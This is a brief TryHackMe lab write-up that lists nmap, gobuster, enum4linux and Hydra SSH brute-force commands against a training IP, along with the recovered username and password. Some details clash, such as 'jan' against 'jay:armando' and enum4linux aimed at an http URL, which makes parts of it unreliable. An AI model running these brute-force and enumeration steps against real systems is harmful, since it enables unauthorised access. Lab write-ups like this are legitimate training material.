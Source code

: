 # Basic Pentesting (TryHackMe)
IP: `10.10.23.195`

# Scanning
```
nmap -sC -sV -oN 10.10.23.195
```

```
22
80
139
445
8009
8080
```

# Question And Answers

* Hidden directory on the web server (`development`, via Gobuster)
```
gobuster -w /opt/DirBuster-0.12/directory-list-2.3-medium.txt -u http://10.10.23.195/	
```
* Username (`jan` and `kay` via enum4linux)
```
/opt/enum4linux/enum4linux.pl -a http://10.10.23.195/
```
* Password (`jay:armando` via Hydra with SHH)
```
hydra -l jan -P /opt/rock.txt ssh://10.10.23.195
```

# Found Credentials








